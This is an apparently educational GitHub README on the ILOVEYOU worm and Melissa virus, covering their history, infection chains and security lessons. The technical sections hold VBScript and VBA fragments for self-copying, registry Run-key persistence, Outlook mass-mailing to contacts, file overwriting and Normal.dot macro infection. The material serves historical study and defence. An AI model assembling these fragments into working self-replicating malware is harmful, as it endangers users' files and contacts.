


# 🦠 Historical Malware Educational Repository

> **A cybersecurity research collection featuring source code recreations of two of the most significant computer worms/viruses in history**

---

## 📋 Table of Contents

- [🎯 Overview](#-overview)
- [💌 ILOVEYOU Worm (2000)](#-iloveyou-worm-2000)
- [📧 Melissa Virus (1999)](#-melissa-virus-1999)
- [🔬 How to Run](#-how-to-run)
- [📊 Sample Output](#-sample-output)
- [🛡️ Security Lessons](#️-security-lessons)
- [⚖️ Legal Disclaimer](#-legal-disclaimer)
- [📚 References](#-references)

---

## 🎯 Overview

| Attribute | 📝 Details |
|-----------|-----------|
| **Purpose** | Educational research into historical malware mechanisms |
| **Target Audience** | Cybersecurity professionals, students, researchers |
| **Format** | Annotated source code recreations with extensive documentation |
| **Safety Level** | ⚠️ **EDUCATIONAL ONLY** - All destructive operations simulated |

### 🎓 Learning Objectives

- ✅ Understand self-replication mechanisms in early malware
- ✅ Identify social engineering techniques used in propagation
- ✅ Recognize persistence techniques (registry, templates)
- ✅ Study the evolution of email-based attack vectors
- ✅ Analyze the impact on cybersecurity policy and software design

---

## 💌 ILOVEYOU Worm (2000)

<div align="center">


**May 4, 2000** — One of the most destructive worms ever released

</div>

### 📊 Key Statistics

| Metric | Value |
|--------|-------|
| 📅 Release Date | May 4, 2000 |
| 👤 Author | Unknown (attributed to Onel de Guzman / Reelon Ramones) |
| 💥 Infected | ~45 million computers (10% of world's computers) |
| 💰 Damage | $5-8 billion USD |
| 🌍 Spread | Global, within 10 days |
| 🖥️ Platform | Windows 95/98 (VBScript) |
| ⏱️ Detection Time | ~24 hours |

### 🔍 Attack Vector

```
┌─────────────────────────────────────────────────────────────┐
│                    INFECTION CHAIN                          │
├─────────────────────────────────────────────────────────────┤
│                                                             │
│  📧 Email: "ILOVEYOU"                                       │
│     │                                                       │
│     ├─ Subject: "ILOVEYOU"                                  │
│     ├─ Attachment: "LOVE-LETTER-FOR-YOU.TXT.vbs"            │
│     │   └─ Double extension trick                           │
│     │   └─ Windows hid .vbs by default                      │
│     │                                                       │
│     ▼                                                       │
│  👤 User double-clicks (thinks it's a .txt file)            │
│     │                                                       │
│     ▼                                                       │
│  💻 VBScript executes under Windows Script Host             │
│     │                                                       │
│     ├─ 1️⃣ Copies itself to system directories              │
│     ├─ 2️⃣ Modifies registry for persistence                │
│     ├─ 3️⃣ Emails itself to all Outlook contacts            │
│     ├─ 4️⃣ Overwrites media/image files                     │
│     └─ 5️⃣ Infects mIRC chat client                         │
│                                                             │
└─────────────────────────────────────────────────────────────┘
```

### 🧬 Technical Architecture

#### Phase 1: Self-Replication 📋

```vbscript
' Core mechanism: FileSystemObject copies itself to system dirs
Set fso = CreateObject("Scripting.FileSystemObject")
sysDir = fso.GetSpecialFolder(1) ' System folder
fso.CopyFile WScript.ScriptFullName, sysDir & "\MSKernel32.vbs", True
```

**Key Concept:** The worm used its own script filename to copy itself to Windows system directories, ensuring it survived after the initial email attachment was deleted.

#### Phase 2: Registry Persistence 🔧

```vbscript
' Registry Run key for startup execution
shell.RegWrite "HKLM\...\Run\MSKernel32", sysDir & "\MSKernel32.vbs"
```

**Key Concept:** By adding itself to the `CurrentVersion\Run` registry key, the worm executed automatically on every system boot.

#### Phase 3: Email Propagation 📧

```vbscript
' Automated email sending to ALL contacts
Set outlook = CreateObject("Outlook.Application")
Set contacts = outlook.GetNameSpace("MAPI").AddressLists(1).AddressEntries
For Each contact In contacts
    Set mail = outlook.CreateItem(0)
    mail.Subject = "ILOVEYOU"
    mail.Attachments.Add(WScript.ScriptFullName)
    mail.Send  ' No user confirmation required!
Next
```

**Key Concept:** No user confirmation was required for Outlook to send emails programmatically. This allowed fully automated propagation.

#### Phase 4: File Destruction 💥

```vbscript
' Overwrites files with extensions: .mp3, .jpg, .avi, etc.
fso.CopyFile WScript.ScriptFullName, file.Path, True
file.Name = file.Name & ".vbs"  ' Destroys original + adds .vbs
```

**Key Concept:** This was an *overwriting* worm - it didn't just delete files, it replaced them with copies of itself, destroying the original content permanently.

#### Phase 5: mIRC Infection 💬

```vbscript
' Infected mIRC by creating script.ini
mircDir = "C:\mIRC"
If fso.FolderExists(mircDir) Then
    ' Creates script.ini that auto-sends worm to chat contacts
End If
```

**Key Concept:** Extended propagation beyond email by targeting the popular mIRC chat client, creating a script that would send the worm to other users in chat rooms.

### 📁 Project Structure

```
iloveyou_worm/
└── LOVE-LETTER-FOR-YOU.vbs.educational
```

### ⚙️ How to Run (Educational Simulation)

```bash
# ⚠️ SAFE - All destructive operations are commented out
# This will run the educational simulation and create a log file

cscript //nologo iloveyou_worm/LOVE-LETTER-FOR-YOU.vbs.educational
```

**Expected Behavior:**
- ✅ Creates `iloveyou_educational_log.txt` with simulation details
- ✅ Logs all actions that WOULD have been taken
- ✅ Displays console output of simulated phases
- ❌ Does NOT modify system files, registry, or send emails

### 📊 Sample Output

```
============================================
EDUCATIONAL ILOVEYOU WORM DEMONSTRATION
Date: 5/4/2026 10:30:00 AM
============================================
--- PHASE 1: Self-Replication ---
[SIMULATED] Would copy to C:\Windows\System32\MSKernel32.vbs
[SIMULATED] Would copy to C:\Windows\WinFilesystem.vbs
--- PHASE 2: Persistence ---
[SIMULATED] Would write registry key: HKLM\...\Run\MSKernel32
--- PHASE 3: Email Propagation ---
[SIMULATED] Would enumerate Outlook address book
[SIMULATED] Would send emails to all contacts
EMAIL SUBJECT: ILOVEYOU
EMAIL BODY: kindly check the attached LOVE LETTER😍
ATTACHMENT: LOVE-LETTER-FOR-YOU.TXT.vbs
NOTE: Original worm sent emails WITHOUT user confirmation
--- PHASE 4: File Destruction ---
[SIMULATED] Would scan all local drives for target files
TARGET EXTENSIONS: .mp3, .mp2, .wav, .avi, .mov, .jpg, .jpeg, .png, .gif, .css, .js, .vbs, .doc, .xls
⚠️ ORIGINAL WORM: OVERWROTE these files with copies of itself
⚠️ ORIGINAL WORM: Original files were PERMANENTLY DESTROYED
--- PHASE 5: mIRC Infection ---
[SIMULATED] Would check for mIRC installation at: C:\Windows\mIRC
[SIMULATED] Would create malicious script.ini if found
============================================
DEMONSTRATION COMPLETE
No actual harm was done - this is educational
============================================
```

---

## 📧 Melissa Virus (1999)

<div align="center">


**March 26, 1999** — The macro virus that started it all

</div>

### 📊 Key Statistics

| Metric | Value |
|--------|-------|
| 📅 Release Date | March 26, 1999 |
| 👤 Author | David L. Smith (arrested April 1, 1999) |
| 💥 Infected | ~15-20% of business computers |
| 💰 Damage | $80 million - $1 billion USD |
| 🌍 Spread | Global, within 5 days |
| 🖥️ Platform | Windows/Mac (Microsoft Word 97/2000 VBA) |
| ⏱️ Detection Time | ~72 hours |
| ⚖️ Legal | First federal virus prosecution under CFAA |

### 🔍 Attack Vector

```
┌─────────────────────────────────────────────────────────────┐
│                    INFECTION CHAIN                          │
├─────────────────────────────────────────────────────────────┤
│                                                             │
│  📧 Email: "Important Message"                              │
│     │                                                       │
│     ├─ Subject: Personalized (from your contact list)       │
│     ├─ Attachment: "list.doc"                               │
│     │   └─ Appeared to be a list of passwords               │
│     │   └─ Social engineering: curiosity gap                │
│     │                                                       │
│     ▼                                                       │
│  📄 User opens Word document                                │
│     │                                                       │
│     ▼                                                       │
│  ⚠️ Word prompts to enable macros? (User clicked Yes)       │
│     │                                                       │
│     ▼                                                       │
│  🦠 AutoOpen macro executes immediately                     │
│     │                                                       │
│     ├─ 1️⃣ Emails itself to first 50 Outlook contacts       │
│     ├─ 2️⃣ Infects Normal.dot template                      │
│     └─ 3️⃣ All new documents now carry virus                │
│                                                             │
└─────────────────────────────────────────────────────────────┘
```

### 🧬 Technical Architecture

#### Phase 1: Macro Auto-Execution ⚡

```vba
' Executes when document is opened - entry point
Sub AutoOpen()
    Call InfectAndSpread        ' Activate virus
    Call DisplayInnocuousMessage  ' Avoid suspicion
End Sub

' Executes when Word application starts
Sub AutoExec()
    Call InfectAndSpread
End Sub
```

**Key Concept:** VBA macros named `AutoOpen` and `AutoExec` execute automatically when a document opens or Word starts. No user action required beyond opening the file.

#### Phase 2: Email Propagation 📧

```vba
' Spread via Outlook to first 50 contacts
Set outlookApp = CreateObject("Outlook.Application")
Set nameSpace = outlookApp.GetNameSpace("MAPI")
Set addressList = nameSpace.AddressLists(1)

For Each contactEntry In addressList.AddressEntries
    If contactCount >= 50 Then Exit For
    
    Set mailItem = outlookApp.CreateItem(0)
    mailItem.To = contactEntry.Address
    mailItem.Subject = "Important Message From " & contactEntry.Name
    mailItem.Body = "Here is that document that you asked for" & _
                    vbCr & vbCr & "Don't show anyone" & _
                    vbCr & vbCr & "Melissa"
    mailItem.Attachments.Add ActiveDocument.FullName
    mailItem.Send  ' Automatic send - no confirmation!
    
    contactCount = contactCount + 1
Next contactEntry
```

**Key Concept:** The virus used the victim's own email account to send messages, making them appear from a trusted contact. The subject line was personalized using the contact's name.

#### Phase 3: Template Infection 📄

```vba
' Infects the Normal.dot template
Set normalTemplate = NormalTemplate

If Not normalTemplate.HasVBProject Then
    ' Copy virus macros from active document to Normal.dot
    Set virusModule = ActiveDocument.VBProject.VBComponents
    ' ... macro copying logic ...
End If
```

**Key Concept:** `Normal.dot` is Word's default template loaded for every new document. By infecting it, Melissa ensured all NEW documents created by the user would carry the virus, spreading beyond email.

#### Phase 4: Conditional Payload 🎲

```vba
' Some variants had time-based triggers
If systemMinute = 0 Or systemMinute = 1 Then
    Selection.TypeText "Twenty-two points, plus triple-word-score..."
    Selection.TypeText "for QY, and no J, no X, help me"
End If
```

**Key Concept:** Some variants activated a payload based on system time, inserting a Scrabble reference into documents. This was more annoying than destructive.

### 📁 Project Structure

```
melissa_virus/
└── melissa_macros.vba.educational
```

### ⚙️ How to Run (Educational Simulation)

```bash
# ⚠️ SAFE - All destructive operations are commented out
# This will run the educational simulation and create a log file

# Option 1: Run from command line (if saved as .vbs)
cscript //nologo melissa_virus/melissa_macros.vbs.educational

# Option 2: View source code to understand macro structure
cat melissa_virus/melissa_macros.vba.educational
```

**Expected Behavior:**
- ✅ Creates `melissa_educational_log.txt` with simulation details
- ✅ Logs all actions that WOULD have been taken
- ✅ Demonstrates macro structure and propagation logic
- ❌ Does NOT modify documents, templates, or send emails

### 📊 Sample Output

```
=== MELISSA VIRUS - EDUCATIONAL SIMULATION ===
Attempting to spread via email...
SIMULATED: Would access Outlook address book via MAPI
SIMULATED: Would enumerate contacts
SIMULATED: Would send to FIRST 50 contacts
SIMULATED: Each email contained infected document
EMAIL SUBJECT PATTERN: 'Important Message From [ContactName]'
EMAIL BODY: 'Here is that document that you asked for...'
NOTE: Social engineering - appeared to come from trusted contact
Total simulated sends: 0 / 50
--- TEMPLATE INFECTION SIMULATION ---
SIMULATED: Would check Normal.dot for existing infection
SIMULATED: Would copy virus macros to Normal.dot template
SIMULATED: All new documents would now be infected
SIMULATED: Would save virus macros in current document
--- EVASION TECHNIQUES USED BY MELISSA ---
1. Minimal destructive payload - just self-replicates
2. Social engineering via personalized emails
3. Strategic 50-contact limit (spread vs stealth balance)
4. Normal.dot template infection for document-based spread
```

---

## 🛡️ Security Lessons

### 🔐 Vulnerabilities Exploited

| Vulnerability | ILOVEYOU | Melissa | Status Today |
|--------------|----------|---------|-------------|
| Social engineering | ✅ Yes | ✅ Yes | ⚠️ Still a major threat |
| Auto-executing scripts | ✅ Yes | ✅ Yes | 🔒 Restricted by default |
| Programmatic email sending | ✅ Yes | ✅ Yes | 🔒 Requires confirmation |
| Hidden file extensions | ✅ Yes | ❌ N/A | 🔒 Visible by default |
| Macro auto-execution | ❌ N/A | ✅ Yes | 🔒 Blocked by default |
| No email attachment scanning | ✅ Yes | ✅ Yes | ✅ Scanned now |

### 🚨 Impact on Cybersecurity

#### ILOVEYOU Aftermath



#### Melissa Aftermath



### 💡 Lessons for Modern Security

1. **📧 Email remains the #1 attack vector**
   - Both worms used email as primary propagation method
   - Modern phishing still follows similar social engineering principles

2. **🎭 Social engineering is timeless**
   - ILOVEYOU: Romance/curiosity
   - Melissa: Curiosity + trusted contact
   - Modern: Business urgency, fear, authority impersonation

3. **⚡ Automatic execution is dangerous**
   - Both relied on scripts/macros running without user interaction
   - Modern: JavaScript, PowerShell, Office macros still face these risks

4. **🔒 Default security settings matter**
   - Both exploited permissive defaults
   - Modern: Defense-in-depth now the standard

5. **👥 Human factor is critical**
   - Users opened attachments from "trusted" sources
   - Modern: Security awareness training essential

---

## ⚖️ Legal Disclaimer

```
╔══════════════════════════════════════════════════════════════╗
║                     ⚠️  WARNING  ⚠️                          ║
║                                                              ║
║  This repository contains EDUCATIONAL RECREATIONS only.      ║
║  All destructive operations are SIMULATED and COMMENTED OUT. ║
║                                                              ║
║  ORIGINAL MALWARE CODE:                                      ║
║  • ILOVEYOU worm and Melissa virus are illegal to create     ║
║  • Distribution of functional malware violates laws          ║
║  • Creating/using these tools for malicious purposes is      ║
║    criminal in virtually all jurisdictions                   ║
║                                                              ║
║  THIS REPOSITORY:                                            ║
║  • Educational purpose only - research and learning          ║
║  • All destructive operations disabled                       ║
║  • Code annotated extensively for learning                   ║
║  • Do NOT attempt to uncomment and execute on live systems   ║
║                                                              ║
║  USE AT YOUR OWN RISK. NO WARRANTY PROVIDED.                 ║
╚══════════════════════════════════════════════════════════════╝
```

---

## 📚 References

### 📖 Historical Sources

| Resource | Description | Link |
|----------|-------------|------|
| FBI Archive | FBI case files and investigation notes | [FBI Vault](https://vault.fbi.gov) |
| CERT Advisory | Original CERT vulnerability advisory | [CERT.org](https://www.cert.org) |
| Microsoft Security | Microsoft's response and patches | [Microsoft Security](https://www.microsoft.com/security) |
| Wired Article | Contemporary reporting on ILOVEYOU | [Wired](https://www.wired.com) |
| NYT Archive | News coverage of both malware events | [NYT](https://www.nytimes.com) |

### 📚 Recommended Reading

- 📕 **"Cybersecurity and Cyberwar"** by P.W. Singer
- 📗 **"The Art of Invisibility"** by Kevin Mitnick
- 📘 **"Countdown to Zero Day"** by Kim Zetter
- 📙 **"Ghost in the Wires"** by Kevin Mitnick

### 🔗 Related Topics

- [Social Engineering Techniques](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Weaknesses_by_Social_Engineering/)
- [Email Security Best Practices](https://owasp.org/www-project-email-security-guide/)
- [Macro Security Guidelines](https://docs.microsoft.com/en-us/deployoffice/security/security-baseline)
- [Windows Script Host Security](https://docs.microsoft.com/en-us/windows/win32/wsh/windows-script-host)

---

## 🏗️ Project Structure

```
emily-love-worm/
│
├── README.md                          ← You are here
├── QWEN.md                            ← Project context for AI assistants
│
├── iloveyou_worm/
│   └── LOVE-LETTER-FOR-YOU.vbs.educational    ← ILOVEYOU recreation source
│
├── melissa_virus/
│   └── melissa_macros.vba.educational         ← Melissa recreation source
│
└── logs/                              ← Generated simulation logs
    ├── iloveyou_educational_log.txt
    └── melissa_educational_log.txt
```

---

## 🤝 Contributing

This is an educational repository. If you'd like to contribute:

1. **🔍 Add analysis** - Expand the technical breakdowns
2. **📝 Add annotations** - Improve code comments for learning
3. **🛡️ Add defenses** - Document modern protections
4. **📊 Add comparisons** - Compare to modern malware techniques

### Contribution Guidelines

- ✅ Educational value must be clear
- ✅ All destructive operations must remain disabled
- ✅ Code should be well-annotated for learning
- ❌ No functional malware or exploits
- ❌ No instructions for creating malicious variants

---

## 📄 License

```
This project is for EDUCATIONAL and RESEARCH purposes only.

No warranty is provided. Use at your own risk.
Do not modify or uncomment code to create functional malware.
All use must comply with applicable laws and regulations.

© 2026 - Educational Historical Malware Repository
```

---

<div align="center">

**🔒 Stay Safe. Stay Curious. Keep Learning.**

*Understanding the past to defend the future*

</div>
